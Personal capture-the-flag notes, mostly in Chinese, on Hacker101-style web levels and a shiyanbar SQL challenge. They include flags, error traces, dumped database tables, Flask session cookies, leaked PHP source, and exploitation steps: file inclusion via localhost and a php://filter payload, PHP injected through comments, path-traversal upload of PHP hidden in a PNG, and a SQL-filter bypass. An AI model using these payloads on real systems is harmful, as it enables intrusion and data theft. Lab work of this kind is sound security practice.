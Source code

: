 

对新加、修改的内容格外注意，测试逻辑是否正确实现。
在出错的地方很容易再犯错。

* Introduction
  先获得完整的功能列表，然后像攻击者一样思考，设定一个目的，想达到什么样的效果。
  设定目标优先级。

* Encrypted Pastebin
^FLAG^a810c4f2706848f951204afdf6b9a46458a76cfd50b16d9d0cabca04a25c1e71$FLAG$
Traceback (most recent call last):
  File "./main.py", line 69, in index
    post = json.loads(decryptLink(postCt).decode('utf8'))
  File "./common.py", line 46, in decryptLink
    data = b64d(data)
  File "./common.py", line 11, in <lambda>
    b64d = lambda x: base64.decodestring(x.replace('~', '=').replace('!', '/').replace('-', '+'))
  File "/usr/local/lib/python2.7/base64.py", line 328, in decodestring
    return binascii.a2b_base64(s)
Error: Incorrect padding

Traceback (most recent call last):
  File "./main.py", line 69, in index
    post = json.loads(decryptLink(postCt).decode('utf8'))
  File "./common.py", line 48, in decryptLink
    cipher = AES.new(staticKey, AES.MODE_CBC, iv)
  File "/usr/local/lib/python2.7/site-packages/Crypto/Cipher/AES.py", line 95, in new
    return AESCipher(key, *args, **kwargs)
  File "/usr/local/lib/python2.7/site-packages/Crypto/Cipher/AES.py", line 59, in __init__
    blockalgo.BlockAlgo.__init__(self, _AES, key, *args, **kwargs)
  File "/usr/local/lib/python2.7/site-packages/Crypto/Cipher/blockalgo.py", line 141, in __init__
    self._cipher = factory.new(key, *args, **kwargs)
ValueError: IV must be 16 bytes long


* File Inclusion
  php warning: include() failed to open stream
  
  
* Photo Gallery
Database: level5                       
Table: photos                                          
[3 entries]   
+----+------------------+--------+------------------------------------------------------------------+
| id | title            | parent | filename                    |   
+----+------------------+--------+------------------------------------------------------------------+
| 1  | Utterly adorable | 1      | files/adorable.jpg                    |
| 2  | Purrfect         | 1      | files/purrfect.jpg                    |
| 3  | Invisible        | 1      | 81e78101746ae78a93868a529b3ad715136761e29594d8f750953f0880981d9c |
+----+------------------+--------+------------------------------------------------------------------+

Database: level5         
Table: albums                    
[1 entry]               
+----+---------+                          
| id | title   |        
+----+---------+ 
| 1  | Kittens |

* Cody's First Blog
  心得，通过不断的试错，会不断往正确的路线靠拢，open mind。提示是很重要的，
  要注意错误提示的细节，意义有很大不同。
  比如这个ctf,限制服务器访问外网，限制php文件写入，并限制除了http以外的文件包含，造成看上去不能利用。
  细心注意错误提示的不同，就能找到线索。

  注意代码运行的环境，配置也很重要。

  http://35.190.155.168:5001/ee2b7eb1b5/?page=http://www.bing.com/test
 <b>Notice</b>:  Undefined variable: title in <b>/app/index.php</b> on line <b>30</b><br />
</h1>
		<br />
<b>Warning</b>:  include(): php_network_getaddresses: getaddrinfo failed: Name or service not known in <b>/app/index.php</b> on line <b>21</b><br />
<br />
<b>Warning</b>:  include(http://www.bing.com/test.php): failed to open stream: php_network_getaddresses: getaddrinfo failed: Name or service not known in <b>/app/index.php</b> on line <b>21</b><br />
<br />
<b>Warning</b>:  include(): Failed opening 'http://www.bing.com/test.php' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in <b>/app/index.php</b> on line <b>21</b><br /> 

  此页面未作验证
   /?page=admin.inc

  包含local地址：
   http://35.190.155.168:5001/33ca0bc2a1/?page=http://127.0.0.1/?page=admin.inc

http://35.190.155.168:5001/33ca0bc2a1/?page=http://127.0.0.1/?page=php://filter/convert.base64-encode/resource=index
   会执行首页提交注入的php代码。

   没有写文件，访问外网的权限。
   <?php
$a = file_get_contents("index.php");
echo $a;
?>
  上面的代码,会获得提交comment页面。
#+begin_example  index.php
<?php
	// ^FLAG^5eb6781b20f6b70f4d36556b45fe33af8b4d7281a4ab3befdc62555a79538d03$FLAG$
	mysql_connect("localhost", "root", "");
	mysql_select_db("level4");
	$page = isset($_GET['page']) ? $_GET['page'] : 'home.inc';
	if(strpos($page, ':') !== false && substr($page, 0, 5) !== "http:")
		$page = "home.inc";

	if(isset($_POST['body'])) {
		mysql_query("INSERT INTO comments (page, body, approved) VALUES ('" . mysql_real_escape_string($page) . "', '" . mysql_real_escape_string($_POST['body']) . "', 0)");
		if(strpos($_POST['body'], '<?php') !== false)
			echo '<p>^FLAG^e8dc80f7e9e5bc510d492f30d5cf58d834212d486093dd4e8598ead57c9de6c1$FLAG$</p>';
?>
	<p>Comment submitted and awaiting approval!</p>
	<a href="javascript:window.history.back()">Go back</a>
<?php
		exit();
	}

	ob_start();
	include($page . ".php");
	$body = ob_get_clean();
?>
<!doctype html>
<html>
	<head>
		<title><?php echo $title; ?> -- Cody's First Blog</title>
	</head>
	<body>
		<h1><?php echo $title; ?></h1>
		<?php echo $body; ?>
		<br>
		<br>
		<hr>
		<h3>Comments</h3>
		<!--<a href="?page=admin.auth.inc">Admin login</a>-->
		<h4>Add comment:</h4>
		<form method="POST">
			<textarea rows="4" cols="60" name="body"></textarea><br>
			<input type="submit" value="Submit">
		</form>
<?php
	$q = mysql_query("SELECT body FROM comments WHERE page='" . mysql_real_escape_string($page) . "' AND approved=1");
	while($row = mysql_fetch_assoc($q)) {
		?>
		<hr>
		<p><?php echo $row["body"]; ?></p>
		<?php
	}
?>
	</body>
</html>
#+end_example

#+begin_example home.inc.php
<p>Welcome to my blog!  I'm excited to share my thoughts with the world.  I have many important and controversial positions, which I hope to get across here.</p>

<?php
foreach(scandir("posts", 1) as $value) {
	if($value == "." || $value == "..") continue;
	ob_start();
	include("posts/" . $value);
	$body = ob_get_clean();
	?>
	<h2><?php echo $title; ?></h2>
	<?php
	echo $body;
}
?>

<?php $title = "Home"; ?>

#+end_example


#+begin_example admin.inc.php
<h2>Pending Comments</h2>
<?php
	if(isset($_GET["approve"]))
		mysql_query("UPDATE comments SET approved=1 WHERE id=" . $_GET["approve"]);
	$q = mysql_query("SELECT id, page, body FROM comments WHERE approved=0");
	while($row = mysql_fetch_assoc($q)) {
		?>
		<hr>
		<h3>Comment on <?php echo htmlentities($row["page"]); ?></h3>
		<p><?php echo htmlentities($row["body"]); ?></p>
		<a href="?page=admin.inc&approve=<?php echo $row["id"]; ?>">Approve Comment</a>
		<?php
	}

	$title = "Admin";
?>
#+end_example
* ticketastic
Database: level7
Table: users
[7 entries]
+----+--------------------+----------+
| id | username           | password |
+----+--------------------+----------+
Database: level7                                                         
Table: tickets                                                                                            
[6 entries]                           
| id | body | reply | title |
|----+------+-------+-------|

Set-Cookie: session_level7a=eyJ1c2VyIjoiYWRtaW4ifQ.XEWTDQ.7EGcPbqmlMaWqOlUVIAD4QT7JM8; HttpOnly; Path=/
Set-Cookie: session_level7a=eyJ1c2VyIjoidGVzdCJ9.XEWfwA.s8cUQJXpGfV1F01NOR7T22STv9w; HttpOnly; Path=/
.XEWP0A.nn_-oniMwm-noZ9GotoDfkwiBlE

(first admin-ss)
"eyJ1c2VyIjoiYWRtaW4ifQ.XEW9vg.vpLMmHy5dpSPG-IVgoM_SqB5wHU"

(String. (base64/decode (first admin-ss)))
"{\"user\":\"admin\"}�[�ྒ̘|�v�����?J�y�u"
eyJ1c2VyIjoidXRlc3QifQ.XEW-Ng.JRi_2pOjIp9oFzAJMFLIeAQUbO4
flask的session第一个点前面的是payload,base64编码，如果以点开头，再用zlib解压。
中间是过期时间，最后是最重要的校验，用APP_KEY加密，根据payload和过期时间计算，进行校验。

* sequence
  integer-sequence-learning

* Model E1337 - Rolling Code Lock
  /admin /get-config

* TempImage
  上传修改文件路径../../test.php
  修改png文件内容，php文件头不修改，包含php代码。


* jiandan
  http://ctf5.shiyanbar.com/web/jiandan/index.php

  提交多个Id值，最后一个生效
  id=unionss&id=test&id=select&submit=Login

  php提交数组：
  id[0]=unionss&id[1]=test&id[2]=select&submit=Login
  (string)转换后变为'Array'

   $sql="select * from users limit ".$info['id'].",0";

  test.php
    $id = (string)$_POST['id'];
    if(sqliCheck($id))

function sqliCheck($str){
	if(preg_match("/\\\|,|-|#|=|~|union|like|procedure/i",$str)){
		return 1;
	}
	return 0;
}

   
  只能构造--前面部分的，无法改变id的值
  a:1:{s:2:"id";s: -- 0:"";}
  可以构造一个字符串，php用数组访问['id']会返回第一个字符,只有一个字符，无法使用。

  现在知道每次解密后的结果，知道加密数据，直接xor就可以获得中间值，不需要oracle,就是miracle啊。

